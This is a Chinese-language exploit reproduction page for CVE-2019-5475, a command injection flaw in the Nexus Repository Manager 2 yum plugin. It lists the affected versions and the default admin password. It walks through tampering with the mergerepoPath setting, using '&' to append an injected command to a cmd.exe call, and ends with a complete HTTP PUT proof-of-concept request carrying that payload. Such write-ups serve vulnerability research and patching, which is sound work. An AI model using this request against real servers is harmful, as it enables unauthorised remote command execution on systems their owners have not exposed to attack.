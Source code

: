 # （CVE-2019-5475）Nexus2 yum 插件 RCE 漏洞

> 原文：[http://book.iwonder.run/0day/Nexus/1.html](http://book.iwonder.run/0day/Nexus/1.html)

## 一、漏洞简介

该漏洞默认存在部署权限账号，成功登录后可使用“createrepo”或“mergerepo”自定义配置，可触发远程命令执行漏洞

## 二、漏洞影响

Nexus Repository Manager OSS <= 2.14.13 Nexus Repository Manager Pro <= 2.14.13 限制：admin 权限才可触发漏洞

## 三、复现过程

首先以管理员身份（admin/admin123）登录 然后找到漏洞位置：Capabilities - Yum:Configuration - Settings

![image](img/b57a6f6c7a35fdf951e8e9a5e3aff530.png)

点击 Save 抓包，更改 mergerepoPath 后的 value 值

```
C:\\Windows\\System32\\cmd.exe /k dir& 
```

![image](img/8cf87d7b1d8c20d369596296a640b029.png)

此处使用 /k 是因为这样命令执行完会保留进程不退出，而 /c 后执行完会退出；由于给用户提供的命令后面加了一个 --version，所以后面要加个&，&表两个命令同时执行，这样就不会干扰其他命令的执行

Poc 如下：

```
PUT /nexus/service/siesta/capabilities/00012bdb034073a3 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Nexus-UI: true
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 241
DNT: 1
Connection: close
Referer: http://127.0.0.1:8081/nexus/
Cookie: NXSESSIONID=105c7cb1-a307-43a3-9ff8-9770b5ae3b13

{"typeId":"yum","enabled":true,"properties":[{"key":"maxNumberParallelThreads","value":"10"},{"key":"createrepoPath","value":"111"},{"key":"mergerepoPath","value":"C:\\Windows\\System32\\cmd.exe /k dir&"}],"id":"00012bdb034073a3","notes":""} 
```

